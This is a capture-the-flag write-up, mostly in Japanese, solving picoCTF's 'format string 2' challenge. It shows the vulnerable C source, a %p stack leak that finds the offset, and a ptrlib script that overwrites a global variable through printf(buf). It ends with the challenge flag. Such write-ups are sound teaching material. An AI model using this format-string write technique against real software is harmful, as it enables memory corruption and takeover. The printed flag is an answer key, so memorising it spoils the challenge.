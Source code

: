 # format string 2:Binary Exploitation:200pts
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must *change* data on the stack!  
Download the binary [here](vuln).  
Download the source [here](vuln.c).  
Connect with the challenge instance here:  
`nc rhea.picoctf.net 51885`  

Hints  
pwntools are very useful for this problem!  

# Solution
バイナリ、ソースと接続先が渡される。  
接続してみる。  
```bash
$ nc rhea.picoctf.net 51885
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
satoki
Here's your input: satoki
sus = 0x21737573
You can do better!

$ nc rhea.picoctf.net 51885
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%s
Here's your input: Here's your input:
sus = 0x21737573
You can do better!
```
エコーバックがあり、fsbがあるようだ。  
ソースを見ると以下の通りであった。  
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
`0x21737573`である`sus`をfsbで`0x67616c66`に書き換えるとフラグが表示されるようだ。  
```bash
$ checksec --file=./vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   42 Symbols        No    0               2               ./vuln
$ objdump -D ./vuln | grep '<sus>'
  401273:       8b 05 e7 2d 00 00       mov    0x2de7(%rip),%eax        # 404060 <sus>
  4012df:       8b 05 7b 2d 00 00       mov    0x2d7b(%rip),%eax        # 404060 <sus>
0000000000404060 <sus>:
```
PIEが無効なので、.data(`0x404060`)に乗っているグローバル変数を書き換えればよい。  
ptrlibには、自身の入力値が出てくる番目を指定すると自動でfsbをやってくれる機能がある。  
```bash
$ nc rhea.picoctf.net 51885
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,
Here's your input: 0x402075,(nil),0x7f0338bcda00,(nil),0xb362b0,0x7f0338c1faf0,0x7f0338bf64e8,0x9,0x7f0338bf6de9,0x7f03389c7098,0x7f0338be34d0,(nil),0x7ffedfcbf520,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,
sus = 0x21737573
You can do better!
```
`0x70252c70252c7025`は14番目のようだ。  
以下のfsb2.pyで行う。  
```python
from ptrlib import *

# sock = Process("./vuln")
sock = Socket("nc rhea.picoctf.net 51885")

payload = fsb(14, {0x404060: 0x67616C66}, bits=64)
sock.sendlineafter("say?\n", payload)

sock.sh()
```
実行する。  
```bash
$ python fsb2.py
[+] __init__: Successfully connected to rhea.picoctf.net:51885
~~~
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}
```
flagが表示された。  

## picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}